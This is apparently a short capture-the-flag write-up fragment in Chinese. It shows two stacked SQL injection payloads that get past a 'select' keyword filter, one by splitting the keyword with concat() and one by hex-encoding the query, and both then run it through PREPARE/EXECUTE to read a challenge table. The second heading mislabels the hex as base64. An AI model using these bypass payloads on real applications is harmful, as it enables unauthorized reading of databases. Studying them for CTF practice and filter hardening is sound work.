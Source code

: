 1. 预编译绕过关键字过滤
```shell
# strstr 可用大小写绕过
/?inject=1';Set @sql=concat('sel','ect * from `1919810931114514`;');Prepare stmt from @sql;execute stmt;--+-
```

2. base64 绕过关键字过滤
```
# select * from `1919810931114514`
GET /?inject=1';Set @sql=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;Prepare stmt from @sql;execute stmt;--+-
```
